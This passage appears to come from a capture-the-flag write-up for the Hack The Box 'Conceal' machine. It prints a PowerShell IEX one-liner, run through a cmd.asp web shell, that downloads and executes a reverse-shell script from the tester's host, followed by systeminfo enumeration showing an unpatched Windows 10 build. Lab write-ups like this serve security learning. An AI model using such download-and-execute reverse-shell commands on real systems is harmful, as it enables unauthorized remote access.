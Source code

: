 Powershell command which we use on `cmd.asp` to Invoke our `ps1` reverse shell on to the system.
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/Invoke-PowerShellTcp.ps1')"
```

Executing the above `command` on `cmd.asp` gave as reverse shell as `Destitute user`.

![](/assets/images/htb-writeup-conceal/revshell.png)

## Privilege Escalation
Enumerating the machine. `systeminfo` provides us that its a `Microsoft Windows 10 Enterprise Build 15063` and in the `HotFix` section we see that nothing is patched.
```
PS C:\Windows\SysWOW64\inetsrv> systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          16/04/2020, 05:02:42
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,267 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,356 MB
Virtual Memory: In Use:    843 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
```
